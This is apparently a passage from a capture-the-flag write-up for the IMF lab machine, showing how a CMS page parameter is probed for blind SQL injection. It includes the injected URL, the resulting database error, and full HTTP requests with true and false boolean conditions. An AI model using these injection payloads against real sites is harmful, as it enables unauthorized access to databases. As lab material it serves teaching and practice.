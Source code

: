 ```http://192.168.100.52/imfadministrator/cms.php?pagename=home```
open wireshark and stay listening on interface ens33 to check if happened a three way handshake

ejm 

```wireshark &> /dev/null & disown```
but we did not receive a three way handshake 


we can try a SQLIN

```http://192.168.100.52/imfadministrator/cms.php?pagename=home'1 ```


output 

```php
IMF CMS
Menu: Home | Upload Report | Disavowed list | Logout


Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29
```
it seems that the shots are aimed at exploiting SQL

let's try 

seems that it has the vulnerability of base blind SQLIN with conditional responses 

it means when you  add something that is true appears ```Welcome to the IMF Administration.```

here's and example adding a true information 

```php
GET /imfadministrator/cms.php?pagename=home'and '1'='1 HTTP/1.1
Host: 192.168.100.52
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.100.52/imfadministrator/cms.php?pagename=home
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Cookie: PHPSESSID=rftk9b1ducfunqjmrks8bcfb04
Connection: close
```

here's an example by adding something that is not true 

```php
GET /imfadministrator/cms.php?pagename=home'and '1'='2 HTTP/1.1
Host: 192.168.100.52
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.100.52/imfadministrator/cms.php?pagename=home
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Cookie: PHPSESSID=rftk9b1ducfunqjmrks8bcfb04
Connection: close
```
